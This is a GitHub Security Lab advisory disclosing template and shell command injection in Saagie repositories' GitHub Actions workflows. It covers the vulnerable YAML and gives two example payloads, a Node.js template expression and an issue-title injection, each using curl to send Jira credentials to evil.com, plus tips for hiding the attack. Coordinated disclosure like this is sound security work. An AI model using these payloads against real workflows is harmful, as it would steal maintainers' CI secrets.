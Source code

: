 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">February 3, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-206: Command and template injections in Saagie workflows</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/29/2020: Report sent to vendor</li>
  <li>11/04/2020: Vendor acknowledges</li>
  <li>12/01/2020: Issue resolved in all affected repositories</li>
</ul>

<h2 id="summary">Summary</h2>

<p>GitHub workflows in <a href="https://github.com/saagie/technologies">saagie/technologies</a>, <a href="https://github.com/saagie/technologies-plugin">saagie/technologies-plugin</a> and <a href="https://github.com/saagie/sdk">saagie/sdk</a> repositories are vulnerable to arbitrary code execution from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/saagie/technologies">saagie/technologies</a>, <a href="https://github.com/saagie/technologies-plugin">saagie/technologies-plugin</a> and <a href="https://github.com/saagie/sdk">saagie/sdk</a> repositories</p>

<h2 id="tested-version">Tested Version</h2>

<p>Master branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-1-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-create-or-atlassiangajira-comment">Issue 1: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create</code> or <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code></h3>

<p><a href="https://github.com/saagie/technologies/blob/master/.github/workflows/comment_issue.yaml"><code class="language-plaintext highlighter-rouge">Jira Add comment on issue</code> step in comment_issue.yaml</a>, <a href="https://github.com/saagie/technologies/blob/master/.github/workflows/create_issue.yaml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yaml</a>, <a href="https://github.com/saagie/technologies-plugin/blob/master/.github/workflows/create_issue.yaml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yaml</a> and <a href="https://github.com/saagie/sdk/blob/master/.github/workflows/create_issue.yml"><code class="language-plaintext highlighter-rouge">Jira Create issue</code> step in create_issue.yaml</a> workflows are vulnerable to arbitrary code execution.</p>

<p><code class="language-plaintext highlighter-rouge">${{ github.event.issue.title }}</code>,<code class="language-plaintext highlighter-rouge">${{ github.event.issue.body }}</code> and <code class="language-plaintext highlighter-rouge">${{ github.event.comment.body }}</code> are used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-create(comment)</code> actions. For example:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
    <span class="na">issue_comment</span><span class="pi">:</span>
        <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span><span class="nv">created</span><span class="pi">]</span>
<span class="nn">...</span>
<span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-comment@v2.0.0</span>
<span class="na">with</span><span class="pi">:</span>
    <span class="na">issue</span><span class="pi">:</span> <span class="s">${{ steps.extract_jira_number.outputs.jira_number }}</span>
    <span class="na">comment</span><span class="pi">:</span> <span class="pi">|</span>
        <span class="s">From : ${{ github.event.comment.user.login }}</span>
        <span class="s">Comment :</span>
        <span class="s">{quote}${{ github.event.comment.body }}{quote}</span>
</code></pre></div></div>

<p>However the Atlassian actions have a hidden feature - they expand <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the issue title or body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may comment on an issue with:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>{{ process.mainModule.require('child_process').exec(`curl -d @${process.env.HOME}/.jira.d/credentials http://evil.com`) }}
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the comment to <code class="language-plaintext highlighter-rouge">Never mind my bad</code>.</p>

<h3 id="issue-2-the-public-github-issue-title-is-used-to-format-a-shell-command">Issue 2: The public GitHub issue title is used to format a shell command</h3>

<p>When a user comments on a public issue it automatically starts the <a href="https://github.com/saagie/technologies/blob/master/.github/workflows/comment_issue.yaml">comment_issue.yaml</a> GitHub workflow. The title of the issue is used to format a bash script.</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="na">on</span><span class="pi">:</span>
    <span class="na">issue_comment</span><span class="pi">:</span>
        <span class="na">types</span><span class="pi">:</span> <span class="pi">[</span><span class="nv">created</span><span class="pi">]</span>
<span class="nn">...</span>
<span class="pi">-</span> <span class="na">name</span><span class="pi">:</span> <span class="s">Extract JIRA number</span>
  <span class="na">id</span><span class="pi">:</span> <span class="s">extract_jira_number</span>
  <span class="na">run</span><span class="pi">:</span> <span class="s">echo "::set-output name=jira_number::$(echo ${{ github.event.issue.title }}| sed 's/.*\[\(${{ secrets.JIRA_PROJECT }}-[[:digit:]]\{1,\}\)\].*/\1/')"</span>
</code></pre></div></div>

<h4 id="impact-1">Impact</h4>

<p>This vulnerability allows for arbitrary command injection into the bash script. For example a user may create an issue with a title <code class="language-plaintext highlighter-rouge">a)"; curl -d @$HOME/.jira.d/credentials http://evil.com #</code> which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible the attacker may modify the issue title and close it.</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-206</code> in any communication regarding this issue.</p>

   